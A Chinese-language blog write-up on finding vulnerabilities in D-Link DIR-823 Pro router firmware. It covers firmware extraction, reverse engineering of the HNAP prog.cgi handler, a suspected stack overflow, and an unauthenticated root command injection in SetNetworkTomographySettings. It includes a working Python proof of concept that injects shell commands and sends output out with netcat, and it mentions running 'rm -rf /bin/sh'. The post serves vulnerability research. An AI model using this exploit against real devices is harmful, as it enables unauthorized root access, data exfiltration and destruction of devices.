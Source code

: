 ```yaml
---
layout:     post
title:      对D-link DIR823pro路由器的漏洞挖掘
subtitle:   尝试挖掘漏洞
date:       2021-03-08
author:     X1ng
header-img: dir823pro.jpg
catalog: true
tags:
    - 漏洞挖掘
    - iot
---
```


感觉iot设备的漏洞比较常见的就是溢出和命令注入了，找了一个网上没有找到相关资料的DIR-823 pro路由器测试

记录关于DIR-823 pro路由器上无交互RCE的漏洞挖掘过程

17年的固件也是年久失修了，就当作挖掘路由器设备漏洞的练手吧

### 固件获取

从官网获取[固件](http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-823+Pro)

从固件名称来看，应该是对openwrt进行二次开发而成的固件

### 解压文件系统

用binwalk直接解压

```
binwalk -Me page_openwrt-mtk-sysupgrade-86382-201710141034.bin
```

就可以得到文件系统了

### 固件分析

#### 攻击面分析

使用nmap对其开放的端口进行扫描

![](https://tva1.sinaimg.cn/large/008i3skNly1gpreu356dkj311y0pkqcu.jpg)

这里优先选择了比较熟悉的http服务

#### 查找可能存在漏洞的文件

经过查阅资料，openwrt启动时，会运行/etc/init.d/下的脚本

```
ls ./etc/init.d/
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gprex200t6j31ey05oq7o.jpg)

找到与http服务有关的lighttpd文件

```
cat ./etc/init.d/lighttpd
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gprezvbu38j31ai0sqthi.jpg)

可以看到起配置文件路径是`/etc/lighttpd/lighttpd.conf`

```
cat ./etc/lighttpd/lighttpd.conf
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gprf1umee8j31by0jmwjs.jpg)

找到一个比较可疑的文件`/www/web/HNAP1/prog.fcgi`

```
file ./www/web/HNAP1/prog.fcgi
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gprf57oksgj31c802ogo5.jpg)

是指向`/usr/sbin/prog.cgi`的软链接

```
file ./usr/sbin/prog.cgi
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gprf9dv39qj31a803k41n.jpg)

#### 分析可能存在漏洞的文件

由于过于贫穷，不能使用IDA pro 7.5，选择ghidra对文件进行逆向分析

经过分析，该程序的整体逻辑应该是

1. 先给特定的接口注册相应的处理函数

    ![](https://tva1.sinaimg.cn/large/008i3skNly1gprfhrh9l8j31a80mi49x.jpg)

2. 从环境变量中获取用户报文的字符串

    ![](https://tva1.sinaimg.cn/large/008i3skNly1gprfhwqxquj31a80mi7fu.jpg)

3. 之后就是对报文的一些分析处理

##### 可能存在的栈溢出漏洞

在main函数中发现了一个可能存在的栈溢出漏洞

其具体逻辑是，从环境变量中获取`HTTP_SOAPACTION`这一变量的值，将字符串存到某结构体中

![](https://tva1.sinaimg.cn/large/008i3skNly1gprfqwb47uj31du0o84d2.jpg)

在之后对这一字符串进行处理的过程中，使用`strncpy`来进行字符串复制

![](https://tva1.sinaimg.cn/large/008i3skNly1gprfrtwzchj31dq0oawpt.jpg)

而`strcpy`与`strncpy`都是字符串操作中比较容易出现漏洞的地方，其作用都是将源字符串复制到目标地址

1. 如果`strcpy`函数的源字符串可被攻击者控制并且没有长度限制，就可能出现源字符串的长度大于目前栈帧的长度的情况，造成栈溢出
2. 而`strncpy`函数对字符串复制的长度进行了限制，其第三个参数用来表示字符串复制的长度，但是如果第三个参数为源字符串的长度，其实就相当于`strcpy`，可能造成栈溢出

而此处对字符串的处理就是使用`strstr`函数来获取源字符串的起始地址（`http://purenetworks.com`之后的字符串地址）与结束地址（下一次出现`"`的地址），然后将两者的差作为`strncpy`第三个参数

也就是上述的第二种情况

但是作为一个cgi文件，`prog.cgi`通过环境变量来获取报文，其他地方有没有对此处的字符串长度进行限制就不得而知了

为了测试这里是否真的存在栈溢出漏洞

- 首先尝试发送超长的字符串进行测试

    在程序发生栈溢出时有两种情况

    1. 程序无守护进程，栈溢出后直接崩溃，也就是发送的报文无返回，并且web服务就无法访问了
    2. 程序存在守护进程，栈溢出后仍然可以正常访问web服务

    ![](https://tva1.sinaimg.cn/large/008i3skNly1gprgcbh8tsj31060swdqc.jpg)

    发现在长度达到一定程度的时候会返回500状态码，而没有直接崩溃

    > https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Status/500
    >
    > 在 HTTP 协议中，`500 Internal Server Error` 是表示服务器端错误的响应状态码，意味着所请求的服务器遇到意外的情况并阻止其执行请求。
    >
    > 这个错误代码是一个通用的“万能”响应代码。有时候，对于类似于 500 这样的错误，服务器管理员会更加详细地记录相关的请求信息来防止以后同样错误的出现。

- 然后尝试qemu搭建一个虚拟调试环境，但是经过各种尝试，都无法进行`chroot`

    ![](https://tva1.sinaimg.cn/large/008i3skNly1gprhflybxlj314u0r2tb2.jpg)

- 最后尝试通过uart串口通信获取真机shell环境，但是连接后提示需要用户名密码登陆

    ![](https://tva1.sinaimg.cn/large/008i3skNly1gprh5xco7kj30y20pmb1e.jpg)

最后放弃了这里的探究

##### 命令注入漏洞

在进入路由器web页面时，通过burp suite进行抓包分析

![](https://tva1.sinaimg.cn/large/008i3skNly1gprh1jizwyj310i0t4ale.jpg)

（经过测试，通过`GetMultipleHNAPs`调用的这些接口都是没有鉴权的，也就是说无需身份验证就可以访问这些接口）

经过对这些接口处理函数的逆向分析，找到了一个比较可疑的函数

![](https://tva1.sinaimg.cn/large/008i3skNly1gprhiwjxsvj31co0nwtqg.jpg)

`FUN_0042a814`函数是对`SetNetworkTomographySettings`接口的处理函数

其功能大概是通过`ping`命令测试网络连通性，允许用户设置`ping`命令的参数

![](https://tva1.sinaimg.cn/large/008i3skNly1gprhlkynfij31es0oiaqf.jpg)

这里也就出现了一个比较常见的`sprintf`+`system`的漏洞模式

由于攻击者可以控制system参数的内容，并且没有有效的过滤，攻击者可通过发送特制的带有shell元字符的请求利用该漏洞执行任意的操作系统命令

并且经过测试（执行命令`rm -rf /bin/sh`，路由器成功变板砖了2333），这里的命令应该是以root权限执行的

poc.py:

```python
#python2
import requests

'''
shell:
nc -l -p 8888
'''

#192.168.0.115
def run(cmd = ""):
	posturl = "http://192.168.0.1/HNAP1/"
	posthead = {
	"SOAPACTION": "http://purenetworks.com/HNAP1/GetMultipleHNAPs"
	}
	if cmd != '':
		cmd = ';'+cmd+';'
	print cmd
	getsetting = '{"GetMultipleHNAPs":{"GetNetworkTomographySettings":""}}'
	setsetting = '{"GetMultipleHNAPs":{"SetNetworkTomographySettings":{ "tomography_ping_address": "'+cmd+'", "tomography_ping_number": "6", "tomography_ping_size": "64", "tomography_ping_timeout": "1", "tomography_ping_ttl": "20"}}}'
	
	a= requests.post(posturl, headers = posthead, data = setsetting)
	print a.text

run('ls | nc 192.168.0.115 8888')
```

需要注意的是，这里的命令是有长度限制的，插入太长的字符串会因为命令字符串不完整执行失败

shell1:

```
nc -l -p 8888
```

shell2:

```
python poc.py
```
